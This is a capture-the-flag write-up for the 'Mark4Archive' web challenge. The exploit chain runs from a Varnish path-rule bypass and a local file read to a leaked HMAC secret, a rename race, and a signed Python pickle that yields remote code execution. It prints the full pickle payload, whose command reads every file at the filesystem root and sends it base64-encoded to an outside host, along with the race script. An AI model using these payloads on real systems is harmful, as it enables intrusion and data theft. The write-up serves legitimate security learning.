







# Mark4Archive
\
*image from [the author's writeup](https://www.nzeros.me/2023/08/08/securinets%20quasl%202k23/), i didn't take any while the CTF infra was still running.*

- [mark4archive_togive.zip](assets/mark4archive_togive.zip)
- [challenge link](http://20.197.61.105/)

## TL;DR

Bypassing Varnish rule to hit internal LFI API endpoint, race condition to Python unpickle to get RCE.

## Details

the docker-compose file has 2 containers, `backend` and `varnish`, varnish is the front-end server, and `backend` is the backend system.

the backend presumably is a solution that scans your private GitHub repos using CodeQL and generates a PDF with the weaknesses found.



looking at the source code we can see that there is not really any scanning the same dummy report is generated for every scan, so this is not what we should exploit.

```py
@analyze_bp.route('/analyze', methods=['POST'])
def analyze():
    [snipped]
    aux = dict(BODY_CONTENT[0])
    aux["Snippet"] = aux["Snippet"].format(**{"Snippet":SNIPPET[list(SNIPPET.keys())[0]]})
    result = DUMMY_CodeQL_HEADER.format(**{
        "repo":repo_name,
        "branch":branch,
        "Id": "0",
        "File":"dummy",
        "Line":"12",
    }) + func_format(aux)
    # Delete the previously created folders internally
    shutil.rmtree(dir)
    # All checks done, relase to a public path
    user_access = UnzipAndSave(
        valid_url, repo_name, username, "public")
    sig = create_signed_mark(f"{user_access}/{repo_name}-{branch}", result)
    return "token: " +user_access.split("/")[1]
```

We can see that the app is checking for `mark4archive` file, if it is found in the repo, the process is stopped and no scanning is done. looking for the filename in the app we can see that it is created here:

```py
def create_signed_mark(path, data):
    try:
        with open(f"{path}/mark4archive", "xb") as f:
            pickled = pickle.dumps(data)
            f.write(pickled)
            signature = bytes(generateSig(
                pickled, TMP_SECRET), "utf-8")
            f.write(signature)
            return signature
    except Exception as e:
        print("error occured: ", e)
```

and used here (unpickled):

```py
def verify_and_unpickle(path):
    try:
        with open(f"{path}/mark4archive", "rb") as f:
            pickled = f.read()
        message_bytes = pickled[:-64]
        received_signature = pickled[-64:]
        print("received_signature ", received_signature)
        computed_signature = hmac.new(
            SECRET, message_bytes, digestmod="sha256").hexdigest()
        print("computed_signature ",computed_signature)
        if hmac.compare_digest(bytes(computed_signature, "utf-8"), received_signature):
            obj = pickle.loads(message_bytes)
            return obj
        else:
            return "Signature is invalid"
    except Exception as e:
        print("error in verify and unpickle: ", e)
        return None
```

So now we know what to attack, however we need to supply a valid signature and also bypass the 2 checks done by the app:

```py
    for file in os.listdir(f"{dir}/{repo_name}-{branch}"):
        if fnmatch.fnmatch(file, "mark4archive"):
            return "mark4archive is reserved to our service, please choose another name for your file", 400
        try:
            with open(f"{dir}/{repo_name}-{branch}/{file}", "rb") as f:
                first_two_bytes = f.read(2)
                if first_two_bytes == b'\x80\x04':
                    return "This Beta version of the app can't handle this kind of files!", 400
        except Exception as e:
            print("error: ", e)
```

the application checks our private repo, if it finds any file with the name `mark4archive` then no unpickling is done. also no file should begin with `b'\x80\x04'` which is the header of pickled data.

lets begin with leaking the secret so we can sign our malicious pickled data. the app has this endpoint which can return any file content in a PDF file:

```py
def generate_pdf_from_file(file_path, output_path):
    with open(file_path, 'r') as file:
        content = file.read()

    doc = SimpleDocTemplate(output_path, pagesize=landscape(letter))

    styles = getSampleStyleSheet()
    title_style = styles['Title']
    title_style.alignment = 1
    title_style.fontSize = 20
    title_style.leading = 24
    code_style = ParagraphStyle('Code', parent=styles['Code'])
    code_style.fontSize = 8
    code_style.fontName = 'Courier'
    elements = []
    elements.append(Paragraph("Dummy CodeQL Analysis Report", title_style))
    elements.append(Spacer(1, 24))
    elements.append(Paragraph(content, code_style))
    doc.build(elements)

@api_bp.route('/api/pdf', methods=['GET'])
def generate_pdf():
    if not request.method == "GET":
        return "invalid method"
    path = request.args.get("p")
    pdf_buffer = BytesIO()
    generate_pdf_from_file(path, pdf_buffer)
    pdf_buffer.seek(0)

    return Response(pdf_buffer, mimetype='application/pdf', headers={
        'Content-Disposition': 'attachment; filename=report.pdf'
    })
```

the only problem is that Varnish config denies access to this endpoint:

```C
    [snipped]
    if (req.url ~ "^/api/pdf") {
        # Respond with a 403 Forbidden status
        return (synth(403, "Forbidden - Internal Endpoint"));
    }
    [snipped]
```



However we can bypass this regex with `//api/pdf`, the intended bypass was to exploit a recent discovered HTTP request smuggling issue in Varnish server.



now that we have an LFI we can read anyfile, the file with the secret key is `config/config.py`, but it is deleted up on app boot:

```py
if os.path.exists("config/config.py"):
    os.remove("config/config.py")
```

Although `config/config.py` is removed, there is still the compiled version of the file.



config/config.py:

```py
SECRET = bytes("secret", "utf-8")
```

on remote:



SECRET: `veryHardSecRetBySecurinetsIhopeYoudontBruteForceThisONeCUzIamlazytoGnereate`

now that we leaked the secret, we need to bypass the filename check, the code has TOCTOU exploit, as the app redownloads the repo after the check:

```py
def UnzipAndSave(url, repo_name, username, dir):
    response = requests.get(url)
    if response.status_code == 200:
        zip_hash = hashlib.sha256(
            str(response.content).encode('utf-8')).hexdigest()
        if not os.path.exists(dir):
            os.makedirs(dir)
            os.makedirs(f"{dir}/{zip_hash}")
        filename = f'{dir}/file_{repo_name}_{username}_{zip_hash}.zip'
        with open(filename, 'wb') as f:
            f.write(response.content)
        print('Zip file downloaded and saved to ' + filename)
        with zipfile.ZipFile(f'{filename}', 'r') as zip_ref:
            zip_ref.extractall(f"{dir}/{zip_hash}")
        os.remove(filename)
        return f"{dir}/{zip_hash}"
    else:
        print('Failed to download zip file')
        return None

@analyze_bp.route('/analyze', methods=['POST'])
def analyze():
    [snipped]
    valid_url = f"https://codeload.github.com/{username}/{repo_name}/zip/refs/heads/{branch}?token={token}"
    # unzip and save in internal folder to check the content
    dir = UnzipAndSave(valid_url, repo_name, username, "/tmp")
    if not dir:
        return "failed to download the zip", 400
    # check for a reserved file name, if it exists return an error
    for file in os.listdir(f"{dir}/{repo_name}-{branch}"):
        if fnmatch.fnmatch(file, "mark4archive"):
            return "mark4archive is reserved to our service, please choose another name for your file", 400
        try:
            with open(f"{dir}/{repo_name}-{branch}/{file}", "rb") as f:
                first_two_bytes = f.read(2)
                if first_two_bytes == b'\x80\x04':
                    return "This Beta version of the app can't handle this kind of files!", 400
        except Exception as e:
            print("error: ", e)
    [snipped]
    # Delete the previously created folders internally
    shutil.rmtree(dir)
    # All checks done, relase to a public path
    user_access = UnzipAndSave(
        valid_url, repo_name, username, "public")
    sig = create_signed_mark(f"{user_access}/{repo_name}-{branch}", result)
    return "token: " +user_access.split("/")[1]
```
`UnzipAndSave()` is called twice, so if we can change the filename back to `mark4archive` just after the first download is done we could bypass the first check.

regarding the second check `b'\x04'` in the header `b'\x80\x04'` is actually the version of pickle protocol, so we can use version 3 when pickling our exploit and this check would also be bypassed.

i created a private GitHub repo with over 400 files just to slow down the whole process:



pickled my RCE payload using protocol V3:

```py
import pickle
import base64
import os
import hmac

TMP_SECRET = bytes("veryHardSecRetBySecurinetsIhopeYoudontBruteForceThisONeCUzIamlazytoGnereate", "utf-8")
def generateSig(data_bytes, key_bytes):
    signature = hmac.new(key_bytes, data_bytes, digestmod='sha256').hexdigest()
    return signature

class RCE:
    def __reduce__(self):
        cmd = ('python3.7 -c "__import__(\'requests\').get(\'https://DOMAIN/leak?flag=\'+__import__(\'os\').popen(\'cat /* | base64\').read().strip())"')
        return os.system, (cmd,)

if __name__ == '__main__':
    f = open("aa", "wb")
    pickled = pickle.dumps(RCE(), protocol=3)
    f.write(pickled)
    signature = bytes(generateSig(pickled, TMP_SECRET), "utf-8")
    f.write(signature)
```

created a scripts that shifts the name between `aa` and `mark4archive`:

```py
import subprocess
import os

def git_rename_commit_push(old_name, new_name, repo_dir):
    os.chdir(repo_dir)
    subprocess.run(['git', 'mv', old_name, new_name])
    subprocess.run(['git', 'add', '.'])
    subprocess.run(['git', 'commit', '-m', f'Renamed {old_name} to {new_name}'])
    subprocess.run(['git', 'push'])
    os.chdir("..")

if __name__ == "__main__":
    repo_directory = 'giter'
    old_file_name = 'aa'
    new_file_names = ["mark4archive", "aa"]

    while True:
        for new_name in new_file_names:
            git_rename_commit_push(old_file_name, new_name, repo_directory)
            old_file_name = new_name
```

i ran the script, submitted my private repo for a scan, and i got a pingback:



flag: `Securinets{Race_The_token_smuggling_varnish_and_piiiickle_RCE}`
